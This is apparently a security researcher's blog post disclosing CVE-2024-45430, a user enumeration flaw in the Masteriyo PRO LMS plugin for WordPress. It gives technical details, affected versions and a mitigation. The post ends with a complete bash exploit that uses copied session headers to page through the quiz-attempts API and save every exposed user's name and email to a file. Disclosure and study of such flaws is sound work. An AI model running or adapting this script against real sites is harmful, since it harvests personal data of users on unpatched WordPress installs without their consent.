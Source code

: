 ```yaml
---
title: User Enumeration Vulnerability in Masteriyo (CVE-2024-45430 RESERVED)
author: meyer
date: 2024-08-30 03:55:00 -0500
categories: [Cybersecurity]
tags: [cve, masteriyo, wordpress, plugin]
pin: true
---
```


## Overview

The Masteriyo PRO - LMS for WordPress plugins contain a vulnerability that allows arbitrary user enumeration without administrative privileges. The this issue has resolved on 2.14.4 version.

## Technical Details

The Quiz Attempts functionality enables user enumeration, as both the administrative panel and the regular user dashboard use the same API endpoint that does not validate whether the user is an administrator or not. This means that any user can view the attempts of all other users. The affected route is /wp-json/masteriyo/v1/quizes/attempts/?page=1&per_page=10, where manipulating the arguments and formatting the output allows enumerating all users who have taken quizzes.

![quiz-attempts](/assets/img/dashboard-quiz-attempts.png)
_Normal behavior_

![quiz-attempts-fail](/assets/img/dashboard-quiz-attempts-fail.png)
_Using the filter_

![quiz-attemps-object](/assets/img/quiz-attempts-object.png)
_Another user object_

## Impact

By exploiting this vulnerability, an attacker with a regular user account can access sensitive user information, such as display names, first names, last names, and email addresses, without the need for an admin account.

## Mitigation

Disabling the quiz attempts page for users is the unique solution for now if you're using an old versions (<=2.14.3).

![mitigation](/assets/img/mitigation.png)
_WordPress Admin Panel_

## PoC

You can create users and experiment in a secure environment using the official [Pro Demo](https://masteriyo.demoswp.net/){:target="\_blank"}. Be sure to complete some quizzes during your testing.

### v2.13.3

{% include embed/youtube.html id='MCP1JrOXtRQ' %}

### v2.14.1-2

The version 2.14.1 only addresses the issue in the user interface, but it does not resolve the entire problem, similar to version 2.14.2.

{% include embed/youtube.html id='MCP1JrOXtRQ' %}

### v2.14.3

In this case, the /attempt endpoint is protected, but if we specify a different user ID as an argument (?user_id=<ID>), the arbitrary user information reading persists.

### Exploit

```bash
#!/bin/bash

# CVE: CVE-2024-45430
# PoC Script
# Author: Meyer Pidiache <meyer-pidiache>
# Description: This script is a proof of concept for CVE-2024-45430.
# Prerequisites:
# - Headers file for HTTP requests (default 'headers.txt').
# Usage:
#   ./script.sh -u <URL of the API endpoint> -h <headers file> -o <users output file>
# Example:
#   ./script.sh -u http://localhost:8080/wp-json/masteriyo/v1/quizes/attempts -h headers.txt -o users.json
# Notes:
#   To obtain the headers from any request with an active session:
#   Browser -> Developer Tools -> Network -> Request -> Right-click -> Copy value -> Copy request headers.

# Colors and formatting for CLI output
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
RED='\033[0;31m'
BLUE='\033[0;34m'
BOLD='\033[1m'
NC='\033[0m' # No color

# Function to display usage
show_usage() {
  echo -e "${YELLOW}Usage: $0 -u <URL of the API endpoint> -h <headers file> -o <users output file>${NC}"
  exit 1
}

# Process arguments
while getopts ":u:h:o:" opt; do
  case $opt in
    u) BASE_URL="$OPTARG" ;;
    h) HEADERS_FILE="$OPTARG" ;;
    o) USER_FILE="$OPTARG" ;;
    \?) echo -e "${RED}[!] Invalid option -$OPTARG${NC}" >&2; show_usage ;;
    :) echo -e "${RED}[!] Option -$OPTARG requires an argument${NC}" >&2; show_usage ;;
  esac
done

# Check that the base URL was provided
if [ -z "$BASE_URL" ]; then
  echo -e "${RED}[!] You must provide the Base URL as an argument.${NC}"
  show_usage
fi

# Use default values if no files were provided
HEADERS_FILE="${HEADERS_FILE:-headers.txt}"
USER_FILE="${USER_FILE:-users.json}"

# Read headers from file and exclude lines that start with "GET", "POST", etc.
HEADERS=()
while IFS= read -r line; do
  if [[ "$line" != *HTTP* ]]; then
    HEADERS+=('-H' "$line")
  fi
done < "$HEADERS_FILE"

# Verify if the headers are valid by making a test request
echo -e "${BLUE}[*] Verifying headers...${NC}"
test_response=$(curl -s -o /dev/null -w "%{http_code}" --compressed "${BASE_URL}?page=1&per_page=1" "${HEADERS[@]}")

if [ "$test_response" -ne 200 ]; then
  echo -e "${RED}[!] The headers are invalid or the URL is not accessible.${NC}"
  echo -e "${YELLOW}[!] Please check the headers file or the provided URL.${NC}"
  exit 1
fi

# Check if the users file exists, if not create it as an empty array
if [ ! -f "$USER_FILE" ]; then
  echo "[]" > "$USER_FILE"
  echo -e "${YELLOW}[!] File $USER_FILE created as an empty array.${NC}"
fi

echo -e "${BLUE}[*] Retrieving the total number of attempts...${NC}"
response=$(curl -s --compressed "${BASE_URL}?page=1&per_page=1" "${HEADERS[@]}")

if [ -z "$response" ]; then
  echo -e "${RED}[!] The response from the first request is empty.${NC}"
  echo -e "${YELLOW}[!] Request: curl --compressed \"${BASE_URL}?page=1&per_page=1\" \"${HEADERS[@]}\"${NC}"
  echo -e "${BLUE}[!] Response: ${BOLD}$response${NC}"
  exit 1
fi

total_attempts=$(echo "$response" | jq -r '.meta.total')

if [ -z "$total_attempts" ] || [ "$total_attempts" -le 0 ]; then
  echo -e "${RED}[!] Failed to retrieve the total number of attempts.${NC}"
  echo -e "${BLUE}[!] Response: ${BOLD}$response${NC}"
  total_attempts=10
fi

echo -e "${GREEN}[*] Total attempts to investigate: $total_attempts${NC}"

echo -e "${BLUE}[*] Investigating attempts...${NC}"
response=$(curl -s --compressed "${BASE_URL}?page=1&per_page=${total_attempts}&_locale=user" "${HEADERS[@]}")

if [ -z "$response" ]; then
  echo -e "${RED}[!] The response from the second request is empty.${NC}"
  echo -e "${YELLOW}[!] Request: curl --compressed \"${BASE_URL}?page=1&per_page=${total_attempts}&_locale=user\" \"${HEADERS[@]}\"${NC}"
  exit 1
fi

existing_ids=$(jq -r '.[].id' "$USER_FILE")

if [ ${#existing_ids[@]} -gt 0 ]; then
  echo -e "${BLUE}[*] Saving user information...${NC}"

  # Use an associative array to store existing IDs
  declare -A id_map
  for id in $existing_ids; do
    id_map["$id"]=1
  done

  echo "$response" | jq -c '.data[] | .user' | while IFS= read -r user; do
    id=$(echo "$user" | jq -r '.id')

    if [[ -z "${id_map[$id]}" ]]; then
      # Add user to the file
      jq --argjson user "$user" '. += [$user]' "$USER_FILE" > "${USER_FILE}.tmp" && mv "${USER_FILE}.tmp" "$USER_FILE"
      id_map["$id"]=1

      useremail=$(echo "$user" | jq -r '.email')
      echo -e "${GREEN}[*] User saved: ${BOLD}$useremail${NC} (ID: $id)"
    fi
  done

else
  echo -e "${YELLOW}[*] No users found.${NC}"
fi

echo -e "${BLUE}[*] Operation completed.${NC}"
```

![exploit](/assets/img/exploit.png)
